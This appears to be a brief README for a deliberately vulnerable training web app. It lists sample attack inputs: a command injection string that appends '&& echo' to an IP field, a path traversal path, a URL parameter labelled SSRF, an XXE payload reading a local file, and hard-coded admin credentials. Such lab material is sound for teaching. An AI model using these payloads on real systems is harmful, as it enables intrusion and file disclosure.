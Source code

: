 ﻿# 1. Command injection exploit

> ### Get the IP address of the machine
> ```cmd
>     ipconfig | findstr /R /C:"IPv4 Address" 
> ```


> ### Fill input filed with matching IP address
> ```text
>     192.168.1.103 && echo \"Hello, this is Command injection exploit attack\"
> ```

# 2. Path traversal for flag access

> ### Incorrect
>
> ```text
>     ../Aleksandar/info.txt
> ```

> ### Correct
>
> ```text
>     info.txt
> ```

# 3. Server side request forgery

> ### Add to URL
>
> ```text
>     &Password=true
> ```

# 4. XXE

> ### Incorrect
>
> ```xml
> <?xml version="1.0"?>
> 
> <!DOCTYPE user [
>         <!ELEMENT user (info)>
>         <!ELEMENT info (#PCDATA)>
>         <!ENTITY xxe SYSTEM "file:///C:/Users/kaoko/Documents/Rider/ImproperInputValidation/wwwroot/Data/Aleksandar/info.txt">
>         ]>
> <user>
>     <info>&xxe;</info>
> </user>

> ### Correct
>
> ```xml
> <?xml version="1.0"?>
>
> <!DOCTYPE user [
>        <!ELEMENT user (info)>
>        <!ELEMENT info (#PCDATA)>
>        ]>
> <user>
>    <info>Ja sam Aca.</info>
> </user>
> ```

# 5. Hard coded input

> ### Incorrect
>
> ```text
> username: admin
> password: unsafe
> ```

> ### Correct
>
> ```text
> username: admin
> password: safe
> ```




